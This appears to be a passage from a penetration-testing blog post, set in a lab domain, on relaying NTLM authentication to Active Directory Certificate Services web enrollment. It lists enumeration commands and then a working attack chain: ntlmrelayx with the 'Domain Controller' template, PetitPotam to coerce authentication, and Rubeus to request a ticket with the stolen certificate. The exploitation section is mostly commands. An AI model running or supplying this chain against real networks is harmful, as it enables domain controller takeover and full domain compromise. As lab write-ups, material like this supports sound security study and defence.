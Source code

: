 #### Certutil

```
certutil.exe -enrollmentserverurl -config "dc2016-2.mcafeelab.local\mcafeelab-DC2016-2-CA-1"
```

#### PSPKI 

```
Get-CertificationAuthority | select name,enroll* | fl
```

### Exploitation

Coerce authentication (Dementor, Printerbug, Petitpotam, DFSCoerce, Coercer, ...) or just wait. Relay with [ntlmrelayx](https://github.com/SecureAuthCorp/impacket).  

**Whatever you read, if you want to pwn a DC -> specify the template ``Domain Controller`` Otherwise it wouldn't work for me. Impacket uses the ``Machine`` template by default, and this can't be used by a DC for authentication.**  

<img src="/images/2022-09-16/onedoes_meme.png"> 

```
./ntlmrelayx.py -t "http://DC2016-2.mcafeelab.local/certsrv/certfnsh.asp" --adcs -smb2support --template "Domain Controller"
python PetitPotam.py -u lowpriv -p low -d mcafeelab.local 10.55.0.30 10.55.0.1
.\Rubeus.exe asktgt /user:dc2016$ /ptt /certificate:MIIRnQIBAzCCEWcGCSq<snip>
```
